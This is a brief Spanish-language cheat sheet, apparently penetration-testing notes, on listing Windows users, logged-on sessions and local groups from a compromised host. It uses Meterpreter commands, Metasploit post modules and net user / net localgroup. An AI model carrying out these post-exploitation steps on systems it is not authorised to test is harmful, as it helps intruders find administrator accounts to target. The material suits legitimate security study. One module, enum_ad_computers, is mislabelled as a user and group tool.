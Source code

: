 # Enumeración de Usuarios y Grupos en Windows con Meterpreter

## 1. Ver el usuario actual
```bash
meterpreter > getuid
```

---

## 2. Ver todos los usuarios logueados
1. Mandar la sesión a segundo plano:
```bash
meterpreter > background
```

2. Cargar módulo de usuarios logueados:
```bash
use post/windows/gather/enum_logged_on_users
set SESSION 1
run
```

---

## 3. Ver todos los usuarios locales de Windows
Entrar en shell desde Meterpreter:
```bash
meterpreter > shell
C:\> net user
```

---

## 4. Ver información detallada de un usuario
```bash
C:\> net user <usuario>
```

Ejemplo:
```bash
C:\> net user Administrator
```

---

## 5. Ver todos los grupos locales
```bash
C:\> net localgroup
```

---

## 6. Ver miembros de un grupo específico
```bash
C:\> net localgroup Administrators
```

---

## 7. Otro módulo para enumerar usuarios y grupos
```bash
use post/windows/gather/enum_ad_computers
set SESSION 1
run
```

```bash
use post/windows/gather/enum_ad_groups
set SESSION 1
run
```

---

## 8. Resumen de Comandos Clave
```bash
getuid                       # Usuario actual
net user                     # Lista de usuarios
net user <usuario>           # Info detallada de un usuario
net localgroup               # Lista de grupos
net localgroup Administrators # Miembros del grupo Administradores
```
